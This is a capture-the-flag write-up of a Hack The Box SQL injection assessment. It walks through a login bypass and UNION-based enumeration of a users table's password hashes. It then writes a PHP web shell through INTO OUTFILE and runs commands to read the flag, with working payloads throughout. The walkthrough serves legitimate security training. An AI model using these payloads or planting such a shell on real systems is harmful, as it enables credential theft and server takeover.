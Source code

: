 HTB Skill Assessment

Author: `adi7312`

This CTF was prepared to help understand UNION-based SQLi. In this walktrough we will not only focus on finding root flag, let's have some fun and use the knowledge that we obtained during this HTB course. 


## **Performing OR Injection**

We are welcomed with login site.


![](c/1.png)


Firstly, we should try the simplest way to bypass login screen - OR Injection!


![](c/2.png)


**Remember to put space after comment sings `--`.**


![](c/3.png)


As we can see, we successfuly bypassed the login site.


## **Enumerating database**

### **Determining number of columns**

We can see search bar (so we can suspect that this 'search' is vulerable to SQLi) and some table with 4 columns. But it doesn't mean that there are only 4 columns in that table, some can be hidden. So we need to determine the exac number of columns in that table, we can use `ORDER BY` clause. Let's try with `' ORDER BY 5 -- `.


![](c/4.png)


As we can see nothing happened, so for sure there minimum 5 columns. Let's check it for 6.


![](c/5.png)

For 6 columns we got error, so definitely we have 5 columns.

### **Determining the visible columns**

Here is the part where UNION-based SQLi is necessary. Let's put the following payload:
```sql
' union select 1,@@version,3,4,5 -- 
```


![](c/6.png)


As a result we can see the first **visible** column contain injected parameter (@@version), but in querry we placed it at second place, so we can determine that first column is not visible for us.


### **Determining schemas, tables and useful columns**

So, we know how many columns we have and which of them are visible, let's further enumerate our database.

```sql
' union select 1,schema_name,3,4,5 from information_schema.schemata-- 
```

![](c/7.png)

We can see interesting database called *ilfreight* let's check its tables.

```sql
' UNION SELECT 1,TABLE_SCHEMA,TABLE_NAME,4,5 from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='ilfreight'-- 
```

![](c/8.png)

Table `users` seems to be the most interesting, let's check its columns.

```sql
' UNION SELECT 1,COLUMN_NAME,TABLE_SCHEMA,TABLE_NAME,5 from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- 
```


![](c/9.png)


We got some interesting columns: username, password and id. Now we need to list content of that columns.

```sql
' UNION SELECT 1,id,username,password,5 FROM ilfreight.users -- 
```

![](c/10.png)

And we got username and hash user's password! Remember to validate and sanitize user input!

## **CTF part - checking user and his permissions**

Our task is to get root flag. From previous "fun" we know that: we have 5 columns, which only 4 are visible and we can conduct UNION-based SQLi. Let's check the user.

```sql
' UNION SELECT 1,USER(),3,4,5 -- 
```

![](c/11.png)


As we can see the querry are executed by root. Let's check if we have super privileges.

```sql
' UNION SELECT 1,super_priv,3,4,5 FROM mysql.user -- 
```

![](c/12.png)


Yes, the user have super privileges! Let's check also if user has `FILE` privileges. 


![](c/13.png)


Yes, it has FILE privileges. The last thing we need to do ensure that we can WRITE files is to check if SECURE_FILE_PRIV is enabled or disabled (we want it to be disabled).

```sql
' UNION SELECT 1, variable_name, variable_value,4,5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```

![](c/14.png)


It doesn't have any value, so it is disabled.

## **CTF part - webshell**

So we know that we can write files, so let's try to write some webshell and upload it using query.

```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```

After writing `http://site:port/dashboard/shell.php?0=id` we got successful result!


![](c/15.png)


Insted of `id` let's use `ls /` to list main directory.


![](c/16.png)


And we have our flag! The last thing is to print it out.


![](c/17.png)


The final flag: `528d6d9cedc2c7aab146ef226e918396`

